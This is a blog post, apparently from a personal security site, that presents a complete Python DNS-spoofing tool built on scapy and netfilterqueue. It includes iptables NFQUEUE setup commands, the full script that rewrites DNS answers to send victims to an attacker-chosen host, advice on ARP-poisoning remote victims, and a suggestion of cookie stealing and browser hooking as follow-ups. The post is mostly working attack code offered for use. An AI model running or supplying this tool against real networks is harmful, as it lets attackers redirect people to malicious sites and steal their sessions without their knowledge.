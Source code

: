 ```yaml
---
title: DNS Spoofer
date: 2021-06-28 10:45:47 +07:00
categories: python
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Poison DNS responses.
---
```


<p align="left">
 <img src="https://external-preview.redd.it/SRVKUe2MGSCBVB56FwBzwFZE6uxGaNZ_Vknx5vioVAw.png?auto=webp&s=b21e5b8bde6eed10e5ef54a188ebf0840e0bf8b4">
</p>



## This is a python script that poisons all DNS responses flowing though the host machine to successfully spoof a target site and redirect the victim to a malicious site of chosing.

- We use IPTABLES to build a queue to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -

> `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic

> `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic

> `iptables --flush` --> flush rules after completion

- We filter the traffic like an intercepting proxy would to filter and modify DNS responses for the target site to redirect the victim to a malicious site of the attackers choosing. Many avenues of attacks can be performed like browser hooking, cookie stealing etc.

- To spoof a remote victim replace the 2nd iptables command, ARP Poison the victim to redirect all DNS traffic through our host machine and proceed as above:

> `iptables -I FORWARD -j NFQUEUE --queue-num 0` -->  Intercept Queue for inbound traffic

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse

def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect DNS requests to this Site/Host")
    parser.add_argument("-s", "--site", dest="site", help="Target Site to DNS Spoof")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid Host,  use --help for info.")
    if not options.site:
        # code to handle error
        parser.error("\n[-] Please specify a valid site to spoof,  use --help for info.")
    return options

# Use get_payload() method to view fields for netfilterqueue objects
def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # DNSQR - DNS request / DNSRR - DNS request
    if scapy_packet.haslayer(scapy.DNSRR):
        # Filter Question Record for site name
        qname = scapy_packet[scapy.DNSQR].qname
        if options.site in qname:
            print("[+] Spoofing target: " + options.site)
            # Create DNS response
            answer = scapy.DNSRR(rrname=qname, rdata=options.host)
            scapy_packet[scapy.DNS].an = answer
            # Setting no of DNS responses
            scapy_packet[scapy.DNS].ancount = 1
            # Remove these fields and let Scapy recalculate them automatically
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].chksum
            del scapy_packet[scapy.UDP].len
            # Copying modified attributes to the original packet
            packet.set_payload(str(scapy_packet))
    # Forward packet to target
    packet.accept()

def iptables_set(queue_num):
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "-I", "INPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    subprocess.call(["sudo", "iptables", "-I", "OUTPUT", "-j", "NFQUEUE", "--queue-num", queue_num])
    print("[!] IPTABLE rules set succesfully! \n")

def iptables_reset():
    # os cmds to change add IPTABLES to setup a queue with queue-num 0
    subprocess.call(["sudo", "iptables", "--flush"])
    print("[!] IPTABLE rules reset succesfully! \n")


print("""
___  _  _ ____    ____ ___  ____ ____ ____ ____ ____ 
|  \ |\ | [__     [__  |__] |  | |  | |___ |___ |__/ 
|__/ | \| ___]    ___] |    |__| |__| |    |___ |  \ 
                                                                                                                                                                                           
      """)

try:
    options = get_arguments()
    print("[-] [NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    queue_num = input("[!] Setup IPTABLES rules with a queue number.\n - Enter a queue number: ")
    print("\n\n******************************************************************************************")
    print("[+] Spoofing all DNS traffic flowing through this machine using configured IPTABLE queues.")
    print("******************************************************************************************\n\n")
    # Creating instance of netfilterqueue obj
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(queue_num, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n")
    iptables_reset()
```

### OUTPUT:

__Attacker:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/arpspoof1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof1.png)

__Victim:__

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/DnsSpoofer/dnspoof2.png)

